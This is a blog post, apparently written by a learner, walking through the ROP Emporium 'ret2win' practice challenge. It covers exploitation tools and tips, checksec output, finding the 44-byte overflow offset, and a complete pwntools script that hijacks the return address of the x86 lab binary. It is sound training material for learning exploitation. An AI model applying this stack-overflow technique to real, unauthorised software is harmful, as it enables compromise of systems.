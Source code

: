 ```yaml
---
---
layout: post
title:  "ROP Emporium - ret2win"
date:   2023-08-05 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Introduction

Lately I've decided that my next current goal is to gain deeper exploitation knowledge, regarding ARM and MIPS architectures. And whats better than learning by hands?
The ROP Emporium platform offers 8 exploitation challenges, for `x86, x64, ARMv5, mips`. 
Lets do them all!

## Tools
To find ROP gadgets, my regular go-to tool is `ropper`. \
Just in case it might miss few gadgets here and there, I would also use `ROPGadget` (which is abit more recommended for ARM architecture). \
`pwntools` is mandatory for such challenges.

As a debugger, I'd use `pwndbg`. \
It has great integration with `pwntools`, which can automate debugging tasks by running `gdb` from a pythonic script. 

`checksec` is good to learn the challenge's mitigations settings. `rabin2` is also an option.

## Tips

1. Note that for stripped binaries, external functions (that are being imported by the binary) names may be resolved from their shared objects:

```bash
nm -u <binary>  # list external functions
rabin2 -qs <binary> | grep -ve imp -e ' 0 '  # try to list internal functions
```

2. The ROP Emporium challenges contains a `usefulGadgets` symbol, which marks the address of added gadgets to the binary. 

3. In order to find strings (avoid using `strings` binary):

```bash
rabin2 -z split
```

4. Make sure the stack is 16-Byte aligned before `call` instruction.

5. When debugging with GDB, calling `system` with invalid string may start `/usr/bin/bash`. 
   This works specifically within a debugger, not the remote target. 
   
6. Use `ltrace` to track library calls. 

## x86

```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

$ checksec ret2win32
[*] '/home/itay/projects/rop_emporium/rop_emporium_all_challenges/ret2win32/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This challenge reads 56 bytes into 32 stack buffer, via `read` call. \
A function named `ret2win` prints the flag, and located within `0x804862c`. 

The amount of needed garbage bytes is 44:

```bash
$ sudo dmesg -C
$ echo `python -c 'print("A"*44 + "B" * 4)'` | ./ret2win32
$ sudo dmesg
[ 4285.835462] show_signal_msg: 7 callbacks suppressed
[ 4285.836441] ret2win32[32818]: segfault at 42424242 ip 0000000042424242 sp 00000000ff9c0940 error 14 in libc.so.6[f7c00000+20000]
[ 4285.836884] Code: Unable to access opcode bytes at RIP 0x42424218.
```

The exploit for x86 is simple (would use it as a skeleton for most of the challenges):
```python
import pwn  
import logging  
  

logger = logging.getLogger(__name__)  
  
DEBUG = True  
BINARY = './ret2win32'  
GOAL_FUNCTION = 'ret2win'  
GOAL_ADDRESS = 0  
  
GDB_SCRIPT = f'''  
set pagination off  
set disassembly-flavor intel  
  
b *0x804862c  
commands printf "woot, reached goal address"  
bt  
c  
end  
  
c  
'''  
  
  
def set_properties(elf):  
    global GOAL_ADDRESS  
    GOAL_ADDRESS = elf.symbols[GOAL_FUNCTION]  
  
    pwn.context.bits = elf.bits  
    pwn.context.endian = elf.endian  
    pwn.context.arch = elf.arch  
    pwn.context.log_level = 'debug'  
  
  
def create_shellcode():  
    shellcode = b''  
    shellcode += 44 * b'A'  
    shellcode += pwn.p32(GOAL_ADDRESS)  
  
    logging.info(f'Created shellcode:\n{shellcode}')  
  
    return shellcode  
  
  
def exploit(p, shellcode):  
    if DEBUG:  
        pwn.gdb.attach(p, GDB_SCRIPT)  
  
    p.sendline(shellcode)  
    p.recvuntil('Thank you!')  
  
    data = p.recvall()  
    logger.info(f'FLAG:{data}')  
  
    p.interactive()  
  
  
def main():  
    elf = pwn.ELF(BINARY)  
    set_properties(elf)  
  
    shellcode = create_shellcode()  
  
    p = pwn.process(BINARY)  
  
    exploit(p, shellcode)  
  
  
if __name__ == '__main__':  
    main()
```
